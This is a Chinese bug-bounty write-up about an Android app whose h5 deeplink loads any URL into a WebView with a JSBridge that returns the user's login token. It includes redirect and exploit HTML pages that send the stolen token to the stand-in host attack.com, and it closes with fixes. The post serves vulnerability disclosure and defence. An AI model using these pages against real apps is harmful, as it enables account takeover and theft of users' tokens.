





# 某APP组件存在权限漏洞可导致远程one click用户劫持-先知社区

> **来源**: https://xz.aliyun.com/news/18924  
> **文章ID**: 18924

---

# 0x00 前言

这个是我在一次挖某个SRC的时候发现的，目标应用是一个存在账号体系的Adnroid App，我在对其进行分析后发现其中一个组件存在权限控制的缺失，可以实现远程的one click账号接管。

# 0x01 漏洞发现过程

拿到这个app之后第一步就是直接反编译开干，工具还是老一套，使用apktool、dex2jar、jadx这些。

> PS：这里推荐一个github上的开源项目，TTDeDroid，它简单的整合了上面几个工具，处理了版本兼容的问题，可以直接一键反编译，比较简单：<https://github.com/tp7309/TTDeDroid>

## 前期分析

挖Android应用，核心其实就只有几大类的漏洞，比如数据安全（明文存储敏感信息、敏感日志泄漏等）、业务逻辑漏洞（这部分和web区别不大，也是业务上的漏洞缺陷导致的漏洞），以及最基本的Android四大组件（Activity、Service、Broadcast Receiver和Content Provider），它们的安全配置不当也是比较常见的安全问题，这些组件可能被误配置为导出，允许其他应用调用，从而导致权限绕过和信息泄露，比如：

* 导出Activity：允许其他应用启动Activity，可能绕过认证流程
* 导出Service：其他应用可以绑定或启动服务，执行未授权操作
* 导出Content Provider：可能泄露敏感数据，或者允许其他应用修改数据
* Intent劫持：没有对接收的Intent进行验证，可能导致恶意数据处理

​

但是比较遗憾，我在通过AndroidManifest.xml文件简单的分析了一遍所有的导出组件后，并没有发现有什么明显的问题，日志也很干净。并且在使用appshark跑了一轮之后，也基本上都是误报。

​

## 深入挖掘

前面提到了几类漏洞，但是其实还有两类重要的攻击面没有说，也是我遇到的比较多的，就是deeplink和webview。特别是现在的移动应用里面大量使用了webview的情况下，导致它们出现问题的概率也变得更大。

​

> 简单介绍一下deeplink，DeepLink是Android系统中一种特殊的链接机制，允许应用响应特定的URL格式，直接打开应用的特定页面或执行特定操作。当用户点击一个DeepLink时，Android系统会寻找能够处理该URL scheme的应用，并启动相应的组件。
>
> <activity android:name=".MainActivity">
>
> <intent-filter>
>
> <action android:name="android.intent.action.VIEW" />
>
> <category android:name="android.intent.category.DEFAULT" />
>
> <category android:name="android.intent.category.BROWSABLE" />
>
> <data android:scheme="myapp" android:host="main" />
>
> </intent-filter>
>
> </activity>
>
> 比如存在上面的配置，那我就可以通过浏览器打开 myapp://main 这个链接来启动MainActivity

我在分析所有的deeplink时，发现了一个有意思的deeplink配置：



它有意思在哪呢？它的host名称是h5，我看到它的第一反应就是这个deeplink是用来打开一个h5页面的，那这就意味着肯定会启动一个webview。假如它没有对url进行限制的话，也就意味着我可以加载任意的页面。所以这里是一个可以尝试深入分析的点。

跟踪这个activity，发现果然如我所料，确实是根据deeplink携带的url参数来使用webview加载一个页面：





这里中大奖了！因为我分析整个流程发现，**从获取url到加载webview整个过程中，它并没有对url进行任何的判断，仅仅是限制了file协议**：



这意味着我可以通过这个deeplink，让应用中的webview加载任何网站，包括我创建的恶意网页。特别是它在加载webview时，还支持启用了js和JSBridge，这就意味着，我可以通过js代码，来调用应用的原生Android方法。

> 什么是jsbridge?
>
> JSBridge（JavaScript Bridge）是一种用于实现 Web 页面（H5）与原生应用（Native）之间双向通信的技术。它主要用在移动应用的 WebView 中，让运行在网页中的 JavaScript 代码能够调用设备的原生功能（如摄像头、地理位置、文件系统等），同时也允许原生代码调用 JavaScript 函数来传递数据或触发页面更新。

首先验证一下功能，我们直接使用*target://h5?url=base64(www.baidu.com)*进行验证，在手机浏览器中打开后，发现可以直接跳转到百度页面。

现在已经是存在漏洞了，但是危害并不大，更关键还是需要看JSBridge注册了哪些方法，这个漏洞的危害就取决于JSBridge注册的原生方法的逻辑。

通过分析它注册的方法，我找到一个了非常敏感的方法：



这个方法的逻辑很简单，获取用户保存在provider中的登录token，然后通过一个回调方法调用webview中的一个js方法，将token传递回页面！

到这里为止，我们的整个利用链路就很完整了，已经可以完全的实现一个远程one click账号接管了：

1. 创建一个包含自动重定向代码的HTML文件，自动重定向到target://h5?url=attack.com, attack.com为恶意页面。
2. 用户访问包含自动重定向到恶意页面
3. 页面自动触发深度链接*target://h5?url=attack.com*，此链接启动目标应用的Activi
4. 应用加载远程恶意页面*http://attack.com/m.html*
5. 恶意页面执行JavaScript代码，通过JSBridge接口调用getToken的方法
6. 获取的敏感信息会被发送到攻击者控制的服务器*http://attack/data*

​

**附部分简化后的代码：**

重定向html页面：

```
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <title>重定向</title>
  </head>
  <body>
    <script>
      window.onload = function() {
        window.location.href = "target://h5?url=dGFyZ2V0LmNvbQ==";
      }
    </script>
  </body>
</html>
```

恶意html页面：

```
<!DOCTYPE html>
  <html>
  <body>
  <script>
  //回调函数
  window.callback = function(response) {
    //将回调数据服务器
    const jsonString = JSON.stringify(data);
    const base64Data = btoa(encodeURIComponent(jsonString).replace(/%([0-9A-F]{2})/g, function(match, p1) {
      return String.fromCharCode("0x" + p1)
    }));
    const url = "http://attack.com/?data=" + base64Data + "&source=direct_link";
    const img = new Image();
    img.src = url;
    img.style.display = "none";
    document.body.appendChild(img);
  };

const request = {};
//请求参数
window.bridage.call(JSON.stringify(request));
</script>
  </body>
  </html>
```

# 0x03 修复建议

其实这个漏洞的主要原因就是对于输入的限制缺失，我们可以从下面两个方向去优化：

* 对于webview加载的url进行限制，比如使用 shouldOverrideUrlLoading拦截与校验，只允许加载特定的域名
* 在调用JSBridge时进行判断，获取当前页面的host，仅允许特定的host执行
